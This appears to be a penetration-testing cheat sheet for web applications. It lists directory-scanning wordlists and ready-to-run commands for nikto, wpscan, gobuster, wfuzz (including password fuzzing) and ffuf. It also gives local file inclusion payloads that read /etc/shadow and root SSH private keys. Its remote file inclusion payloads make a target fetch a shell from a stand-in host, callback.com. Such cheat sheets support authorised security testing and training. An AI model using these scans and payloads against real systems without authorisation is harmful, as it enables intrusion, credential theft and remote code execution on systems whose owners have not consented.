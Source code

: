 
## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners

Nikto: 

- nikto --url <domain>

Wpscan:

- wpscan --url <domain>
- wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
- wpscan --url <domain> --enumerate u (Usernames)
- wpscan --url <domain> --enumerate v

Web Tools for Directory Scanning: 



Dirb: 

- dirb <domain>
- dirb <domain> <wordlist>

Gobuster: 

- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file>
- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox (Custom Agent)
- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html
- gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster dir -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
- gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'

Wfuzz:

- wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
- wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
- wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)

- wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)

Dirsearch: 

- dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php

FFuF:

- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -b "COOKIE VALUE; security=low" -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -fc 403, 302, 200
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -H "Host: 172.21.0.0" -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -timeout 5


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster


## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa

Windows:

Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM



## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241